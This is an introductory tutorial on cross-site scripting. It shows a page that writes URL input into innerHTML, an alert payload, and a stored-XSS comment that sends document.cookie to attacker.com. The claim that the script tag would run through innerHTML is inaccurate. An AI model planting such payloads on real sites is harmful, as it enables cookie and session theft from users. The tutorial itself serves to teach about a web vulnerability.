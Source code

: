 **XSS (Cross-Site Scripting)** is an attack where an attacker injects **malicious JavaScript** into a website, which is then executed in another user's browser. This can be used to **steal cookies, modify page content, or redirect users**.

---

## **1️⃣ How Does XSS Work?**

📌 **Attackers exploit user input fields or vulnerable web pages to inject JavaScript.**  
📌 **When another user visits the page, the script executes in their browser.**

**Example of a vulnerable webpage:**

```html
<!-- Vulnerable page that displays user input -->
<form action="/submit" method="POST">
  <input type="text" name="username" />
  <button type="submit">Submit</button>
</form>

<!-- Displaying user input without sanitization -->
<p>Welcome, <span id="user"></span>!</p>

<script>
  // Vulnerable code: directly inserting user input into the DOM
  const params = new URLSearchParams(window.location.search);
  document.getElementById("user").innerHTML = params.get("username");
</script>
```

🔴 **Problem:** If an attacker submits:

```html
<script>
  alert("XSS Attack!");
</script>
```

Then, the page would **execute the script**, showing an alert box.

---

## **2️⃣ Types of XSS Attacks**

### **1️⃣ Stored XSS (Persistent)**

- **Malicious script is permanently stored** in a database or comment section.
- Every visitor to the affected page **automatically runs the attacker's script**.

📌 **Example: Attacker posts this comment on a website:**

```html
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```
